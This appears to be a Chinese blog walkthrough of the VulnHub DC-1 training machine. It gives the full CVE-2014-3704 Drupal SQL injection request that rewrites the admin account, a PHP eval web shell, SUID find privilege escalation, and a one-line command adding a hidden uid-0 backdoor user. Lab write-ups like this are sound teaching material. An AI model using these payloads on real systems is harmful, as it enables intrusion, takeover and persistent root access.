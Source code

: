 ```yaml
---
title: VulnHub-DC1(一)
abbrlink: 55500
date: 2020-10-29 16:05:41
categories: [VulnHub]
---
```

### 前言
　　Vulnhub是一个提供各种漏洞的靶机网站，本章靶机是入门级别的dc1，<a href="https://www.vulnhub.com/entry/dc-1,292/">下载</a>，我们的目标是要找到5个flag。下载后是的ova文件导入VMware Workstation15（低版本不支持导入ova文件）。
<!-- more -->

### 信息搜集
　　打开靶机后，是不知道密码的，第一次打靶的我还很疑惑为什么不给密码......
　　<img src="https://s1.ax1x.com/2020/10/29/BGvebT.png">
　　`nmap -sn 10.16.122.0/24`得到靶机ip为10.16.122.6
　　<img src="https://s1.ax1x.com/2020/10/29/BGxVWd.png">
　　`nmap -A --script=vuln 10.16.122.6`探测主机信息
　　开放了80和22端口，并且存在cve-2014-3704，如果你觉得自己人品好就去爆破吧(ಡωಡ)
　　<img src="https://s1.ax1x.com/2020/10/29/BGzeNF.png">
### 漏洞利用
　　使用burp截取到登陆请求包，并发送到Repeater
　　<img src="https://s1.ax1x.com/2020/10/29/BJSoQA.png">
　　cve-2014-3704这个漏洞是sql注入，能直接数据库添加用户名和密码
　　payload

```
name[0%20;update+users+set+name%3d'root'+,+pass+%3d+'$S$DkIkdKLIvRK0iVHm99X7B/M8QC17E1Tp/kMOd1Ie8V/PgWjtAZld'+where+uid+%3d+'1';;#%20%20]=test3&name[0]=test&pass=shit2&test2=test&form_build_id=&form_id=user_login_block&op=Log+in
```
　　将上述payload贴进来，发包后，将会创建一个用户名为:root 密码:thanks的账户，如果登陆失败，多发几次包即可。
　　<img src="https://s1.ax1x.com/2020/10/29/BJPtl4.png">
### flag3
　　登陆进来后，点击最上面的content获取到flag3
　　<img src="https://s1.ax1x.com/2020/10/29/BJFXF0.png">
　　flag3提示用find -exec，想到用suid提权
　　<img src="https://s1.ax1x.com/2020/10/29/BJk9OJ.png">
　　来到modules，开启php filter
　　<img src="https://s1.ax1x.com/2020/10/29/BJkH1O.png">
　　新建articel文章，并写入php一句话木马<?php @eval($_POST["x"]); ?>，底下的text format换成PHP code
　　<img src="https://s1.ax1x.com/2020/10/29/BJADDH.png">
　　文章成功发布后，使用蚁剑连接
### flag1
　　ls后，直接在当前目录发现flag1.txt
　　<img src="https://s1.ax1x.com/2020/10/29/BJMM2n.png">
　　flag1提示查看站点配置文件
　　<img src="https://s1.ax1x.com/2020/10/29/BJMDr6.png">
### flag2
　　Drupal的默认配置文件为  /var/www/sites/default/settings.php，查看后
　　<img src="https://s1.ax1x.com/2020/10/29/BJQolR.png">
　　获取到数据库信息，告诉你可以选择爆破，我反正不会这样做
### flag4
　　使用find / -name flag*.txt命令，直接来查找flag文件，获取到flag4
　　<img src="https://s1.ax1x.com/2020/10/29/BJldnx.png">
　　你能成功访问到/root下的flag吗？恩，我能！
　　<img src="https://s1.ax1x.com/2020/10/29/BJlc3d.png">

### 提权
　　看来接下来就是要提权了
　　<img src="https://s1.ax1x.com/2020/10/29/BJljbV.png">
　　uname -a后得到Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686 GNU/Linux
　　尝试使用脏牛提权，好像make版本太低
　　<img src="https://s1.ax1x.com/2020/10/29/BJ1Eb6.png">
　　换个思路，前面提示说suid提权，试试
　　
```bash
#以下命令将尝试查找具有root权限的SUID的文件，不同系统适用于不同的命令，一个一个试
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000-print2>/dev/null
find / -user root -perm -4000-exec ls -ldb {} \;
```
　　这里前面提示的find
　　<img src="https://s1.ax1x.com/2020/10/29/BJ3peP.png">
　　root权限
　　<img src="https://s1.ax1x.com/2020/10/29/BJ3lYF.png">
　　如果Find命令也是以Suid权限运行的话，则将通过find执行的所有命令都会以root权限执行。

```bash
touch test
find test -exec whoami \;
```
　　<img src="https://s1.ax1x.com/2020/10/29/BJ3L7V.png">

### flag5
　　<img src="https://s1.ax1x.com/2020/10/29/BJdYXF.png">
### 结尾
　　既然都是root，哪就添加一个用户吧
　　一句话添加用户并且是root权限，用户名:lion 密码:123456

<pre>
useradd -p`openssl passwd -1 -salt 'salt' 123456` lion -o -u 0 -g root -G root -s /bin/bash -d /home/test
</pre>

　　<img src="https://s1.ax1x.com/2020/10/29/BJwg2V.png">
　　

